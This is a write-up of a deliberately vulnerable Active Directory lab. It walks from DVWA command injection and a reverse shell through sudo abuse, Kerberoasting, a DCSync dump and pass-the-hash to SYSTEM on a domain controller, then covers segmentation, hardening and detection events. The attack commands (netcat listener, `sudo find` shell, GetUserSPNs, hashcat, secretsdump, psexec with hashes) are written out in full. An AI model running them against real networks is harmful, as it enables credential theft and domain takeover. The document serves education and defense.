# Active Directory Attack & Defense Lab

> **Educational lab only — isolated virtual environment.**  
> This project was developed to understand how a compromise can progress from an exposed web application to an Active Directory domain, and how network segmentation, firewall rules, Group Policy and least-privilege controls can disrupt that attack chain.

## Project at a glance

- **Environment:** Windows Server 2022 (AD DS/DNS), Ubuntu Server (DVWA), Kali Linux.
- **Offensive outcome:** a multi-stage attack progressed from web command injection to `NT AUTHORITY\SYSTEM` on the Domain Controller.
- **Defensive work completed:** network segmentation, firewall rule configuration, Group Policy hardening and security-control validation through before/after testing. The defensive work also addressed the privilege and account-management weaknesses identified during the attack.
- **Documentation status:** the original virtual machines are no longer available. Screenshots taken during the offensive phase are referenced below; screenshots and complete configuration exports from the defensive phase were not preserved. The defensive implementation and tests are described from the work performed at the time, **not presented as independently reproducible results today**.

**Main technologies and concepts:** Windows Server 2022, Active Directory Domain Services, DNS, Kerberos, Ubuntu, DVWA, Kali Linux, Impacket, Hashcat, command injection, reverse shell, Linux privilege escalation, Kerberoasting, DCSync, Pass-the-Hash, network segmentation, firewalling and GPO hardening.

---

## 1. Project Overview

The objective was to build a small enterprise-like Active Directory environment, deliberately introduce several weaknesses, compromise it from an external attacker position, and then implement and test defensive controls.

The offensive scenario starts from a Kali Linux host on an external network. A vulnerable Ubuntu web server running DVWA is exposed to that network and also connected to the internal Active Directory network. By exploiting the web application, escalating privileges on Ubuntu and abusing excessive Active Directory permissions, the attack ultimately reaches the Domain Controller with `NT AUTHORITY\SYSTEM` privileges.

The defensive phase was **implemented and tested in the original lab**, with an emphasis on:

- network segmentation;
- firewall rules and security zones;
- least-privilege principles;
- service-account hardening;
- Group Policy Objects (GPOs);
- restriction of administrative traffic;
- Active Directory privilege review;
- monitoring and detection opportunities.

The following documentation separates **attack steps supported by retained screenshots**, **defensive measures performed but no longer supported by retained captures**, and **additional detection recommendations**. This is a limitation of the remaining evidence, not an indication that the defensive phase was skipped.

---

## 2. Initial Architecture

The initial lab contained three main systems:

| System | Role | Network position |
| --- | --- | --- |
| **Kali Linux** | External attacker | `192.168.91.129/24` |
| **Ubuntu Server** | DVWA web server, domain member and pivot host | `192.168.91.128/24` + `192.168.176.128/24` |
| **Windows Server 2022** | Domain Controller, AD DS and DNS | `192.168.176.129/24` |

The Active Directory forest/domain was **`LAB.LOCAL`**.

The Ubuntu server was deliberately **dual-homed**:

- one interface connected to the external network;
- one interface connected directly to the internal Active Directory network.

This configuration made the web server a critical pivot point once compromised.

```text
External network: 192.168.91.0/24

[Kali Linux]
192.168.91.129
      |
      | HTTP / attack traffic
      v
[Ubuntu + DVWA]
192.168.91.128
192.168.176.128
      |
      | Internal network access
      v
[Windows Server 2022 / DC]
192.168.176.129
LAB.LOCAL

Internal network: 192.168.176.0/24
```



*Figure 1 — Ubuntu server connected to both the external and internal networks, making it usable as a pivot host after compromise.*

---

## 3. Active Directory Configuration

The Windows Server was configured with **Active Directory Domain Services (AD DS)** and **DNS** roles and promoted as the Domain Controller for `LAB.LOCAL`.

Several users were created to simulate a small organization, including:

- `Alice`
- `Bob`
- `Charles`
- `svc_web`



*Figure 2 — Test users created inside the `LAB.LOCAL` Active Directory domain.*

### 3.1. Service Account Configuration

A dedicated service account referred to as `svc_web` was associated with the Ubuntu web service through a Service Principal Name (SPN):

```text
HTTP/ubuntuserver.lab.local
```



*Figure 3 — Service account configured with an HTTP Service Principal Name.*

> **Account-name verification:** The original notes use both `svc_web` and `svcweb` in different places (notably command output). These names are preserved where they appeared in the recorded commands, but the exact account logon name should be checked against the retained screenshots before publishing a normalized version.

### 3.2. Excessive Replication Permissions

To simulate a privilege-management error, the service account was intentionally granted directory replication permissions, including:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set



*Figure 4 — Excessive replication permissions assigned to the service account.*

These permissions were critical: in this lab, the account could use directory replication mechanisms to retrieve credential material through a **DCSync** operation. Replication privileges were unrelated to the intended purpose of the web service.

---

## 4. Offensive Scenario

The attack chain was executed from the external Kali Linux attacker position, with actions subsequently performed through the compromised Ubuntu host. The objective was to demonstrate how independent weaknesses could be chained until the Domain Controller was compromised.

### 4.1. Initial Access through DVWA

The Ubuntu server hosted **Damn Vulnerable Web Application (DVWA)**. The attack started by targeting the **Command Injection** functionality.

A command-injection payload was used to launch a reverse shell toward the attacker's Kali Linux machine.



*Figure 5 — DVWA Command Injection used to execute a reverse-shell payload.*

On Kali Linux, a Netcat listener was started:

```bash
nc -nvlp 4444
```

The connection returned a shell running under the web-service account:

```text
www-data@ubuntuserver
```



*Figure 6 — Reverse shell obtained from the vulnerable Ubuntu web server as `www-data`.*

At this stage, the attacker had remote command execution on the web server, but not administrative privileges.

### 4.2. Linux Privilege Escalation

The current user's sudo privileges were inspected:

```bash
sudo -l
```

The configuration allowed `www-data` to execute the following binary with `NOPASSWD`:

```text
/usr/bin/find
```

Because `find` supports command execution, the rule could be abused to spawn a root shell:

```bash
sudo find . -exec /bin/bash \; -quit
```



*Figure 7 — Unsafe sudo configuration abused to escalate from `www-data` to `root`.*

The attacker now had full control of the Ubuntu server.

**Security issue.** The problem was not the `find` utility itself, but the overly permissive sudo rule. A web-service account such as `www-data` should not be permitted to run shell-capable binaries as root without appropriate restrictions.

### 4.3. Pivot to the Internal Active Directory Network

Because the Ubuntu host had two network interfaces, control of that host provided **network reachability** toward the internal `192.168.176.0/24` network. In this scenario, Ubuntu itself was the compromised foothold with access to the internal segment; the documentation does not assume an additional SOCKS tunnel or routing tool from Kali.

The system had been integrated into the `LAB.LOCAL` Kerberos realm. Domain discovery was performed with:

```bash
realm discover
```

> **Technical precision:** `realm discover` discovers domain information; it does not, by itself, prove that the host is joined. The machine's ability to use its domain keytab and obtain a Kerberos ticket, shown in the following steps, provides stronger evidence in this case. `realm list` is a more direct command for reviewing configured realm membership, but it is not presented here as a command that was recorded at the time.

The machine account's Kerberos keytab was then used to obtain a Ticket Granting Ticket:

```bash
kinit -k -t /etc/krb5.keytab 'UBUNTUSERVER$@LAB.LOCAL'
```

The ticket was verified with:

```bash
klist
```



*Figure 8 — Ubuntu domain integration and Kerberos ticket acquisition using the machine keytab.*

This demonstrates an important security consideration: compromising a domain-joined Linux server can expose Kerberos material that may be reused for authenticated domain reconnaissance.

### 4.4. Kerberoasting the Service Account

The attacker enumerated Service Principal Names from the compromised domain-joined Ubuntu server. The original Impacket command was:

```bash
GetUserSPNs.py -request -k -no-pass LAB.LOCAL/UBUNTUSERVER$
```



*Figure 9 — Requesting Kerberos service tickets using Impacket `GetUserSPNs.py`.*

The recorded output identified the service account:

```text
HTTP/ubuntuserver.lab.local    svcweb
```

The tool returned a Kerberos TGS suitable for offline password cracking.



*Figure 10 — Kerberos TGS ticket obtained for the service account.*

The captured ticket was then tested with Hashcat using mode `13100`:

```bash
hashcat -m 13100 svc_web.hash /usr/share/wordlists/rockyou.txt
```

Mode `13100` corresponds to Kerberos 5 TGS-REP **etype 23 (RC4-HMAC)**. The original captured ticket should be checked to confirm that this was the encryption type used in the lab.

The password was successfully recovered.



*Figure 11 — Successful offline cracking of the Kerberos service ticket with Hashcat.*

This demonstrates why service accounts require long, random, non-human-generated passwords, together with appropriate encryption and account management.

### 4.5. DCSync through Excessive Replication Rights

The recovered service-account credentials became much more dangerous because the account had Active Directory replication permissions.

Using Impacket `secretsdump`, the account requested directory credential material from the Domain Controller. The command recorded in the original notes was:

```bash
impacket-secretsdump lab.local/svcweb:'<password>'@192.168.176.129
```



*Figure 12 — The service account using its excessive replication permissions to retrieve domain credential material.*

The operation returned password hashes for multiple domain accounts, including the built-in Administrator account.

This technique is known as **DCSync** because it abuses directory replication privileges to request account credential information through replication mechanisms.

**Sensitive replication permissions to review and monitor:**

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

A normal web-service account should not possess these permissions.

### 4.6. Pass-the-Hash and Domain Controller Compromise

The recovered Administrator NTLM hash was reused without knowing the Administrator clear-text password.

Impacket `psexec.py` was used:

```bash
psexec.py Administrator@192.168.176.129 -hashes :<ADMIN_NTLM_HASH>
```

The attack successfully authenticated to the Domain Controller through SMB, created a service and obtained a privileged command shell.

The final privilege level was verified with:

```cmd
whoami
```

Result:

```text
nt authority\system
```



*Figure 13 — Pass-the-Hash resulting in `NT AUTHORITY\SYSTEM` access on the Domain Controller.*

The full attack chain therefore progressed from an externally reachable web application to complete control of the Domain Controller.

---

## 5. Complete Attack Path

```text
External Kali Linux attacker
       |
       v
DVWA Command Injection
       |
       v
Reverse shell as www-data
       |
       v
Unsafe sudo rule on /usr/bin/find
       |
       v
Root on Ubuntu server
       |
       v
Dual-homed host provides internal network access
       |
       v
Kerberos machine credentials from keytab
       |
       v
Kerberoasting of svc_web
       |
       v
Offline password cracking
       |
       v
svc_web replication permissions
       |
       v
DCSync / secretsdump
       |
       v
Administrator NTLM hash
       |
       v
Pass-the-Hash / PsExec
       |
       v
NT AUTHORITY\SYSTEM on Domain Controller
```

---

## 6. Security Weaknesses Identified

The compromise did not rely on a single vulnerability. It was possible because several weaknesses could be chained together.

### 6.1. Vulnerable Internet-Facing Application

DVWA intentionally allowed operating-system command injection. In a real environment, an equivalent vulnerability in an exposed application could provide the initial foothold.

### 6.2. Dual-Homed Web Server

The same Ubuntu server was connected to both the external network and the internal Active Directory network. After compromising the web server, the attacker gained network reachability toward internal resources.

### 6.3. Unsafe Sudo Rule

The `www-data` service account was allowed to execute `/usr/bin/find` as root without a password, creating a local privilege-escalation path.

### 6.4. Domain-Joined Exposed Server

The Ubuntu machine was joined to the Active Directory domain and stored Kerberos machine credentials in its keytab. Once the host was compromised, this material could be reused.

### 6.5. Weak Service-Account Password

The Kerberos service ticket for the service account could be cracked offline. A sufficiently long, random password would have made the demonstrated password-guessing approach impractical.

### 6.6. Excessive Active Directory Privileges

The service account possessed directory replication permissions unrelated to its function. This converted a compromised service account into a domain-compromise path.

### 6.7. Insufficient Internal Network Filtering

The compromised host could directly reach sensitive services on the Domain Controller.

### 6.8. Administrative Protocol Exposure

SMB and related administrative services were reachable from the compromised internal host, making the demonstrated Pass-the-Hash and remote service creation possible after the Administrator hash was obtained.

---

## 7. Defensive Redesign, Implementation & Hardening

After completing the offensive scenario, I implemented a defensive phase based on **defense in depth**. The objective was not to assume that the web application could never be compromised; it was to reduce the consequences of an initial compromise and prevent an exposed host from becoming a direct route to domain takeover.

**Work performed in the original lab:** network segmentation, firewall rule configuration, GPO configuration, privilege/account hardening work, and before/after security testing. I no longer have the VMs, post-hardening screenshots or complete firewall/GPO exports. Consequently, the configurations shown below document the **security design and policy intent**, not verbatim exports of the original configuration. The testing approach is summarized in Section 10, without invented command outputs or precise results that cannot be recovered.

### 7.1. Network Segmentation

The original architecture effectively allowed the web server to bridge the external network and the Active Directory network. The defensive redesign separated systems according to their trust level and role, restricting communication between zones.

The following diagram presents the security-zoning model used to describe that design:

```text
                  Internet / External
                          |
                       Firewall
                          |
                          v
                     +---------+
                     |   DMZ   |
                     | Web App |
                     +---------+
                          |
                    Restricted flows
                          |
                       Firewall
                          |
              +-----------+-----------+
              |                       |
              v                       v
      Internal Server Zone     Administration Zone
              |
        Restricted flows
              |
              v
       Identity / DC Zone
```

Security zones considered in the design:

- **External / Untrusted Zone**
- **DMZ / Web Zone**
- **Internal Server Zone**
- **Domain Controller / Identity Zone**
- **Administration Zone**

The central principle was:

> **Default deny between zones. Allow only explicitly required traffic.**

**Operational consideration:** because the initial Ubuntu web server was domain-joined, fully blocking all DMZ-to-DC communication would affect domain-related services. In a hardened design, the service's need for domain membership must be reviewed, or any strictly necessary authentication/DNS flows must be explicitly identified and restricted. The original notes do not retain the exact post-hardening flow matrix.

### 7.2. Firewall Rules

Firewall rules were configured during the defensive phase to implement minimum-required connectivity. The following policy examples illustrate the intended restrictions; they are **not literal exports of the historical firewall configuration**.

#### External → DMZ

Only web-application ports required by legitimate users should be reachable:

```text
ALLOW External -> Web Server : TCP/80, TCP/443
DENY  External -> Internal Network : ANY
```

#### DMZ → Internal

The web server should not have unrestricted access to internal systems:

```text
DENY DMZ -> Domain Controller : SMB
DENY DMZ -> Domain Controller : RDP
DENY DMZ -> Domain Controller : WinRM
DENY DMZ -> Internal hosts : ANY
```

These are policy examples; required flows must be explicitly added if the server still needs an internal service, and firewall-rule order/statefulness must be taken into account.

#### Administration Traffic

Administrative protocols should originate only from dedicated management systems or an administration zone, using authorized administrator identities.

### 7.3. Removing the Linux Privilege-Escalation Path

The dangerous sudo rule observed in the vulnerable configuration was:

```text
www-data ALL=(ALL) NOPASSWD: /usr/bin/find
```

This authorization was addressed during hardening. The security requirement was to eliminate the ability of the web-service account to spawn an unrestricted root shell through a permitted utility.

Web-service accounts should:

- not receive generic sudo privileges;
- not execute shell-capable utilities as root;
- not use unrestricted `NOPASSWD` rules;
- be isolated from administrator identities.

Where privileged actions are unavoidable, they should use narrowly scoped, auditable commands.

### 7.4. Active Directory Least Privilege

The key Active Directory finding was the excessive directory-replication privileges granted to the service account. These permissions were addressed in the defensive hardening work because they allowed the demonstrated DCSync step.

A service account should receive only the permissions required for its function. It should not have:

- Domain Admin membership;
- directory replication privileges;
- interactive administrator access;
- unrestricted remote-management rights.

#### Service-account hardening

The account-hardening strategy also covered:

- a long, random password;
- regular password rotation;
- no interactive logon;
- minimal delegated permissions;
- modern Kerberos encryption where possible;
- periodic SPN review;
- periodic ACL and privilege review.

A managed service account such as **gMSA** can further reduce password-management risk in compatible environments. This is included as an architectural recommendation, **not as a claim that a gMSA was deployed in this lab**.

### 7.5. Group Policy Hardening

**Group Policy Objects were configured during the defensive phase** to centralize selected security controls. The original GPO backups and screenshots were not retained, so the categories below describe the hardening objectives and recommendations; they do not assert that every individual setting listed was enabled.

#### Password and Account Policies

- stronger password requirements;
- account-lockout policy;
- password history;
- protection of privileged accounts.

#### Local Administrator Restrictions

Administrative privileges should be limited to explicitly authorized accounts. Users should not receive unnecessary local administrator rights.

#### Windows Firewall

Windows Defender Firewall should be enforced centrally through Group Policy, allowing only necessary inbound services.

#### Remote Administration

RDP, WinRM and SMB administration should be restricted to trusted management systems and administrator identities.

#### Auditing

Advanced audit policy should provide visibility into:

- logon events;
- account changes;
- Kerberos events;
- directory-service changes;
- privilege use;
- process creation;
- Group Policy changes.

#### Authentication Hardening

Where compatible with the environment:

- reduce or disable legacy NTLM use;
- prefer Kerberos;
- disable obsolete protocols;
- review delegation settings;
- enforce modern encryption.

---

## 8. Protecting the Domain Controller

The Domain Controller was treated as the most sensitive system in the lab. The defensive work aimed to restrict access to it and minimize the privileges and network paths available to a compromised web server.

Key principles applied or considered as part of the design included:

- no direct Internet access;
- no direct access from the DMZ except strictly required, authorized services;
- no unnecessary software;
- no general-purpose browsing or user activity;
- restricted SMB/RPC/RDP/WinRM access;
- dedicated administrative accounts;
- privileged administration from trusted management systems;
- continuous monitoring of privileged groups;
- monitoring of directory replication permissions;
- regular review of delegated rights.

The precise configuration of each item is not recoverable from the surviving records; this list should be read as the **hardening checklist and security rationale**, not as individual validation evidence for every control.

---

## 9. Detection Opportunities

The attack chain also provides several useful **Blue Team detection hypotheses**. These are opportunities identified from the attack, not claims that every detection was implemented or triggered in a SIEM during this AD project.

| Attack phase | Detection opportunity |
| --- | --- |
| Web command injection | Web-server logs, suspicious command execution, unexpected shell processes |
| Reverse shell | Unexpected outbound connection from the web-service process |
| Sudo privilege escalation | Linux authentication/sudo logs showing privileged execution by `www-data` |
| Kerberoasting | Unusual Kerberos service-ticket requests, especially RC4 TGS requests |
| DCSync | Directory replication activity initiated by an account that is not a Domain Controller |
| Pass-the-Hash | Unusual NTLM authentication, SMB administration and remote service creation |
| PsExec | Service creation and administrative-share activity |
| Domain privilege changes | Changes to directory ACLs and privileged group membership |

### Relevant Windows events

Examples include:

- **4769** — Kerberos service ticket requested;
- **4662** — operation performed on an Active Directory object;
- **4624** — successful logon;
- **4672** — special privileges assigned to a new logon;
- **7045** — service installed on a system (System log / Service Control Manager).

**Detection caveats:** Event visibility depends on the audit policy and log source configuration; in particular, useful `4662` records require appropriate directory-service auditing and object SACLs. Kerberoasting and Pass-the-Hash investigations require context because the related events may also occur in legitimate activity. Detection should not rely on a single event: context and correlation are essential.

---

## 10. Before vs. After Hardening — Implementation & Validation

The defensive phase included **before/after tests performed in the original lab** to assess the effectiveness of the implemented controls. The original machines and the screenshots or logs from those validation tests are no longer available. Accordingly, the descriptions below capture **what was evaluated and why**, without fabricating exact output, rule identifiers, GPO names or pass/fail results that are not documented today.

### Before

```text
External attacker
      |
      v
Web Server
      |
      +---- unrestricted route ----> Internal Network
      |                                  |
      |                                  v
      |                           Domain Controller
      |
      +---- dangerous sudo rule
      |
      +---- Kerberos machine credentials

